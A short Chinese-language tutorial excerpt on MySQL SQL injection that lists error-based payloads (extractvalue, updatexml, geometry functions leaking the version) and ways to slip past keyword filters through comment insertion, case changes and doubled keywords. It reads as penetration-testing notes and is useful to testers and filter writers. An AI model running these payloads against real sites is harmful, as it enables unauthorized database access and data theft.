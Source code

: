 #### **利用error\_based进行SQL注入:**

Error-based SQL注入函数非常容易被忽略


```sql
extractvalue(1,concat(0x5c,md5(3)));

updatexml(1,concat(0x5d,md5(3)),1);

GeometryCollection((select * from (select * from

(select@@version)f)x))

polygon((select*from (select name_const(version(),1))x))

linestring()

multipoint()

multilinestring()

multipolygon()
```

#### **MySQL特殊语法**

```sql
select{x table_name}from{x information_schema.tables};
```

#### **每一个点都能找到绕过的方法**

以注释绕过为例子，开始Fuzz

注释符绕过:

- 先测试最基本的: `union/**/select`

- 再测试中间引入特殊字：`union/aaaa%01bbs/select`

- 最后测试注释长度：`union/aaaaaaaaaaaaaaaaaaaaaaa/select`

最基本的模式：

`union/something/select`

#### **大小写绕过**

如果程序中设置了过滤关键字，但是过滤过程中并没有对关键字组成进行深入分析过滤，导致只对整体进行过滤。

例如：and过滤。当然这种过滤只是发现关键字出现，并不会对关键字处理。可以通过修改关键字的内字母大小写来绕过过滤措施。

### **常规绕过手段**

#### **双写绕过**

如果在程序中设置出现关键字之后替换为空，那么SQl注入攻击也不会发生。对于这样的过滤策略可以使用双写绕过。因为在过滤过程中只进行了一次替换。
